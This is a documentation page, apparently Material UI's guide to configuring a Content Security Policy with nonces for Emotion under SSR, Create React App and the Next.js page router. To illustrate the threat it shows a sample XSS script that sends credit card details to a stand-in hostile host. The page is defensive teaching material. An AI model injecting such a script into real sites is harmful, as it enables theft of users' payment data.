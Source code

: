 # Content Security Policy (CSP)

<p class="description">This section covers the details of setting up a CSP.</p>

## What is CSP and why is it useful?

CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://example.com` the CSP header `default-src: 'self';` will allow all assets that are located at `https://example.com/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

This vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP).

## How does one implement CSP?

### Server-Side Rendering (SSR)

To use CSP with Material UI (and Emotion), you need to use a nonce.
A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request.

A CSP nonce is a Base 64 encoded string. You can generate one like this:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

You must use UUID version 4, as it generates an **unpredictable** string.
You then apply this nonce to the CSP header. A CSP header might look like this with the nonce applied:

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src 'self' 'nonce-${nonce}';`,
);
```

You should pass the nonce in the `<style>` tags on the server.

```jsx
<style
  data-emotion={`${style.key} ${style.ids.join(' ')}`}
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: style.css }}
/>
```

Then, you must pass this nonce to Emotion's cache so it can add it to subsequent `<style>`.

:::warning
If you were using `StyledEngineProvider` with `injectFirst`, you will need to replace it with `CacheProvider` from Emotion and add the `prepend: true` option.
:::

```js
const cache = createCache({
  key: 'my-prefix-key',
  nonce: nonce,
  prepend: true,
});

function App(props) {
  return (
    <CacheProvider value={cache}>
      <Home />
    </CacheProvider>
  );
}
```

### Create React App (CRA)

According to the [Create React App Docs](https://create-react-app.dev/docs/advanced-configuration/), a Create React App will dynamically embed the runtime script into index.html during the production build by default.
This will require a new hash to be set in your CSP during each deployment.

To use a CSP with a project initialized as a Create React App, you will need to set the `INLINE_RUNTIME_CHUNK=false` variable in the `.env` file used for your production build.
This will import the runtime script as usual instead of embedding it, avoiding the need to set a new hash during each deployment.

### NextJS page router

For NextJS using page router, after [setting up a nonce](https://nextjs.org/docs/app/building-your-application/configuring/content-security-policy#nonces), you can pass it to the emotion cache which you'll do it in two places:


First in the `_document.tsx`
```tsx
import {
 DocumentHeadTags,
 documentGetInitialProps,
 createEmotionCache,
} from '@mui/material-nextjs/v15-pagesRouter';
// other imports

type Props = DocumentInitialProps & DocumentHeadTagsProps & { nonce?: string };

export default function MyDocument(props: Props) {
  const { nonce } = props;

  return (
    <Html lang="en" className={roboto.className}>
      <Head>
        { /*...*/ } 
        <meta name="csp-nonce" content={nonce} />
        <DocumentHeadTags {...props} nonce={nonce} />
      </Head>
      <body>
        { /*...*/ }
        <NextScript nonce={nonce} />
      </body>
    </Html>
  );
}

MyDocument.getInitialProps = async (ctx: DocumentContext) => {
  const { req } = ctx;
  const nonce = req?.headers["x-nonce"];
  if (typeof nonce !== "string") {
    throw new Error('"nonce" header is missing');
  }

  const emotionCache = createEmotionCache({ nonce });
  const finalProps = await documentGetInitialProps(ctx, {
    emotionCache,
  });

  return { ...finalProps, nonce };
};
```

And then in `_app.tsx` if you're setting up the `AppCacheProvider`

```tsx
import {
 createEmotionCache,
} from '@mui/material-nextjs/v15-pagesRouter';
// other imports

export default function MyApp(props: AppProps & { nonce: string }) {
  const { Component, pageProps, nonce } = props;

  const emotionCache = useMemo(() => {
    const nonce = props.nonce || getNonce();

    return createEmotionCache({ nonce });
  }, [props.nonce]);

  return (
    <AppCacheProvider {...props} emotionCache={emotionCache}>
      {/* ... */}
    </AppCacheProvider>
  );
}

function getNonce(headers?: Record<string, string | string[] | undefined>) {
  if (headers) {
    return headers['x-nonce'] as string;
  }

  if (typeof document !== 'undefined') {
    const nonceMeta = document.querySelector('meta[name="csp-nonce"]');
    if (nonceMeta) {
      return nonceMeta.getAttribute('content') || undefined;
    }
  }

  return undefined;
}

MyApp.getInitialProps = async (appContext: AppContext) => {
  const nonce = getNonce(appContext.ctx?.req?.headers);
  if (typeof nonce !== "string") {
    throw new Error('"nonce" header is missing');
  }

  return { ...otherProps, nonce };
};
```

### styled-components

The configuration of the nonce is not straightforward, but you can follow [this issue](https://github.com/styled-components/styled-components/issues/2363) for more insights.
